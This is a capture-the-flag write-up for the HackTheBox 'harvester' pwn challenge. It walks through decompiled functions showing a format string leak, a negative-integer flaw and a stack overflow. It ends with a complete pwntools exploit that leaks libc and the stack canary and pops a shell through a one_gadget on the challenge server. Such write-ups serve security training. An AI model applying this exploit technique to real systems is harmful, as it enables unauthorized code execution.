


## Hackthebox Cyberapocalypse CTF: harvester [pwn]


## challenge information
#### pretty straightforward challenge. we were given a binary which had all protections enabled and the corresponding libc. The program was a menu-type pokemon-like kind of game where we had options to fight the wild harvester, check our inventory to drop some pies, stare at the creature, and to run. 

## reverse engineering
#### I'll do a quick rundown of all the functions that are used when interacting with the binary. Starting off with `fight()`, we see an obvious format string vuln in the following chunk of code:
```c
  printstr("\nChoose weapon:\n");
  printstr(&DAT_00101138);
  read(0,&weapon_choice,5);
  printstr("\nYour choice is: ");
  printf((char *)&weapon_choice);
```
#### Since we can only input 5 bytes into that weapon_choice buffer, we can only use the format string vuln to leak important details such as libc addresses and the stack canary. 

#### Next up, we have `inventory()`. 
```c
void inventory(void)

{
  long in_FS_OFFSET;
  int drop_count;
  char prompt [3];
  long cookie;
  
  cookie = *(long *)(in_FS_OFFSET + 0x28);
  drop_count = 0;
  show_pies(pie);
  printstr("\nDo you want to drop some? (y/n)\n> ");
  read(0,prompt,2);
  if (prompt[0] == 'y') {
    printstr("\nHow many do you want to drop?\n> ");
    __isoc99_scanf("%d",&drop_count);
    pie = pie - drop_count;
    if (pie < 1) {
      printstr(&DAT_00101205);
                    /* WARNING: Subroutine does not return */
      exit(1);
    }
    show_pies(pie);
  }
```
#### Using this option we can drop pies. `pie` is a global variable which is initialized to `0xa` on program startup. The important thing to note here is that the function accepts negative integers as input, so instead of subtracting our input value from the pie variable, we can add more to it instead. 

#### Lastly, we have `stare` with the following chunk of code:
```c
void stare(void)

{
  long in_FS_OFFSET;
  undefined vuln_buffer [40];
  long cookie;
  
  cookie = *(long *)(in_FS_OFFSET + 0x28);
  printf("\x1b[1;36m");
  printstr("\nYou try to find its weakness, but it seems invincible..");
  printstr("\nLooking around, you see something inside a bush.");
  printf("\x1b[1;32m");
  printstr(&DAT_0010129a);
  pie = pie + 1;
  if (pie == 0x16) {
    printf("\x1b[1;32m");
    printstr("\nYou also notice that if the Harvester eats too many pies, it falls asleep.");
    printstr("\nDo you want to feed it?\n> ");
    read(0,vuln_buffer,0x40);
    printf("\x1b[1;31m");
    printstr("\nThis did not work as planned..\n");
  }
```
#### It first adds 1 to the current value of `pie` then proceeds to check if that value is `0x16`. In the case that it is, we proceed to the inner block of the if statement where we have yet another buffer overflow. We do have the stack cookie to bypass somehow so that we can turn it into an RCE.

## Catching the wild harvester.
#### With all the above information, we can formulate the following plan:
```
1. Leak a libc address and the stack canary using the format string vuln in fight()
2. Set the pie value to be 0x15 using the negative integer logic flaw on inventory()
3. Call stare() so that it adds 0x1 to the pie value, making it a total of 0x16. We can then proceed to overflow the buffer, preserve the cookie, then execute another one_gadget payload to pop a shell
```



##### exploit code
```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./harvester', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./harvester', env = {'LD_PRELOAD' : libc.path})
p = remote("165.227.232.115", 32186)
p.recvuntil(b'> ')

#: GDB SETTINGS
breakpoints = []
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
def choose_weapon(fmtstr):

	p.sendline('1') #: fight option
	print(p.recvuntil(b'>'))
	p.sendline(fmtstr)
	p.recvuntil(b': ')
	leak = p.recvuntil(b'\n').strip()
	p.recvuntil(b'> ')
	return leak

#: PWN THY VULNS

nanosleep = int(choose_weapon('%3$p'), 16) - 20 
libc.address = nanosleep - libc.sym.nanosleep
canary = int(choose_weapon('%11$p').split(b'\x1b')[0], 16)
#print(choose_weapon('%3$p'))
log.info(hex(nanosleep))
log.info(hex(libc.address))
log.info(hex(canary))


#: set the pie to be 0x15
p.sendline('2') #: Inventory option
p.sendlineafter(b'> ', 'y')
p.sendlineafter(b'> ', '-11')
p.recvuntil(b'> ')

#: choosing the stare option will add 1 to the pie
#: thus allows us to pass the check so that we can proceed to the buffer overflow
p.sendline('3') #: Stare option
one_gadgets = [0x4f3d5, 0x4f432, 0x10a41c]
payload = cyclic(40) + p64(canary) + cyclic(8) + p64(libc.address + one_gadgets[0])
p.sendlineafter(b'> ', payload)
p.interactive()
```